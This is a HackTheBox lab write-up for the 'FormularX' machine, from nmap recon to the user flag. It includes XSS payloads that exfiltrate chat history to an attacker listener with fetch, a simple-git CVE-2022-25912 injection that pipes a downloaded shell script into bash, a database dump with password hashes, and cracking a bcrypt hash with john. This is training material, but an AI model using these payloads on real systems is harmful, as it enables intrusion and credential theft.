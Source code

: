 # Write-up FormularX 
**Hackthebox**

## Recon
Using nmap tools: `nmap -sV -A --min-rate 15000 -v $ip -oN /opt/nmap/formularx`
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 496A37014B10519386B2904D1B3086BE
|_http-cors: GET POST
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/12%OT=22%CT=1%CU=38765%PV=Y%DS=2%DC=T%G=Y%TM=65F0
OS:175E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=1%ISR=109%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M5
OS:3CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 46.071 days (since Fri Jan 26 02:07:55 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   279.52 ms 10.10.14.1
2   279.74 ms 10.10.11.6
```

When i analysis this site at port 80, i see it use nodejs, expressjs and auth with jwt.
- Use `gobuster` enumurate file and dir -> see /restricted/chat.js
- From that file you redirect to contact page, you see xxs vul in this
how to know
1. fill firstname and lastname at textarea fill `<img src=x onerror="document.location='http:<yourmachine>:<port>/`"/>`
2. Listen http server, you can use `php -S 0.0.0.0:<port>` or `python -m http.server <port>`
3. click send -> you see in your terminal our server is received the request
=> From chat.js, write the payload get info important from the server.

```shell
┌──(toan㉿kali)-[~]
└─$ cat test.js                         
const script = document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
const res = axios.get( /user/api/chat");
const socket = io('/',{withCredentials: true});
socket.on('message', (my_message) => {fetch("http://10.10.14.18:8888/?d=" + btoa(my_message))}) ;
socket.emit('client_message', 'history');
});
```
- Encode this payload, `cat test.js | base64`.

- the atob func will decode base64
`{"first_name":"a","last_name":"asdf","message":"<img src=x onerror=\"eval(atob('<payload encode base64>'))\">"}`
![img2](./img/img2.png)
```shell
┌──(toan㉿kali)-[~]
└─$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.6 - - [12/Mar/2024 08:05:48] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:52] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:55] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:59] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:02] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:06] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:09] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:13] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:37] code 501, message Unsupported method ('OPTIONS')
.....
```

=>
```shell
R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM=
SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg=
V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk=
```
![img1](./img/img1.png)
=> you see subdomain `dev-git-auto-update.chatbot.htb`

- add this domain into `/etc/hosts`.type:  `echo "10.10.11.6 dev-git-auto-update.chatbot.htb"  | sudo tee -a /etc/hosts`. goto that site!
...

This page use `simple-git v3.14`, use can search internet this! It show [CVE-2022-25912](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221).
I inject the payload by bash code though this vuls!.
`ext::sh -c curl% http://10.10.14.18:8888/shell.sh|bash`

![img 3](./img/img3.png)

- This project use mongodb, you type `mongo`  -> yah, from this you can interact with db, you can read the project, it is using testing db to save -> `use testing`.
```shell
use testing
switched to db testing
show collections
messages
users
db.users.find()
{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MTAyNDk2ODJ9.GW97zDBRfK4goXJakZ0WgqKBLj_CVpW_ir1mNXnp1-4", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
``` 

The frank_dorky's password is encode, this is `bcrypt`. JohnTheRipper or hashcat to decode it.
![img4](./img/img4.png) 

```shell
┌──(toan㉿kali)-[~]
└─$ nano hash  
                                                                             
┌──(toan㉿kali)-[~]
└─$ cat hash
$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6
┌──(toan㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:14 DONE (2024-03-12 09:29) 0.06934g/s 194.7p/s 194.7c/s 194.7C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                    
```
`manchesterunited`

```shell
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Mar  5 10:19:47 2024 from 10.10.14.23
frank_dorky@formulax:~$ ls
user.txt                                      
frank_dorky@formulax:~$ cat user.txt          
c734e98<************>47e0a07              
frank_dorky@formulax:~$                                                      
                                                                             
                                                                             
                                                                
```